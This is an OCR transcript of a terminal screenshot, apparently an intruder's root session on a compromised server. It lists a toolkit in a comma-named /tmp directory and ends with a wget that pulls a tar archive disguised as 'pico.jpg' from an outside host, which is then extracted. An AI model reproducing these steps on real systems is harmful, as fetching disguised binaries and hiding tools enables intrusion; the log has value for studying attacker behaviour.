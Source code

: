     fast/checkmech
    fast/bash
    fast/3.user
    fast/2.user
    fast/1.user
    fast/configure.c

    server:/tmp/,# cd fast

    server:/tmp/,/fast# ls -a
    .           ..          src         r           mkindex     Makefile
    m.set       m.help      LinkEvents  go          genuser     configure
    checkmech   bash        3.user      2.user      1.user      configure.c

    server:/tmp/,/fast# vi 1.user
    E558: Terminal entry not found in terminfo

    server:/tmp/,/fast# pico 1.user
    bash: pico: command not found

    server:/tmp/,/fast# apt-get  install pico
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    The following NEW packages will be installed:
      pico
    0 upgraded, 1 newly installed, 0 to remove and 259 not upgraded.
    Need to get 158.2kB of archives.
    After this operation, 347.6kB of additional disk space will be used.
    Get:1 http://ftp.debian.org stable/main pico 1.15-7 [158.2kB]
    Fetched 158.2kB in 1s (4493B/s)
    Reading package fields... Done
    Reading package status... Done
    (Reading database ... 177887 files and directories currently installed.)
    Unpacking pico (from .../archives/pico_1.15-7_i386.deb) ...
    Processing triggers for man-db ...
    Setting up pico (1.15-7) ...

    server:/tmp/,/fast# pico 1.user
    pico: Segmentation fault

    server:/tmp/,/fast# ./pico 1.user
    bash: ./pico: command not found

    server:/tmp/,/fast# wget pinky.clan.su/altele/pico.jpg
    --2011-03-02 21:09:32--  http://pinky.clan.su/altele/pico.jpg
    Connecting to pinky.clan.su:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 84478 (82K) [image/jpeg]
    Saving to: `pico.jpg

    100%[======================================>] 84,478       27K/s  eta 1s

    2011-03-02 21:09:34 (27 KB/s) - `pico.jpg' saved [84478/84478]
    server:/tmp/,/fast# tar zxvf pico.jpg
    pico
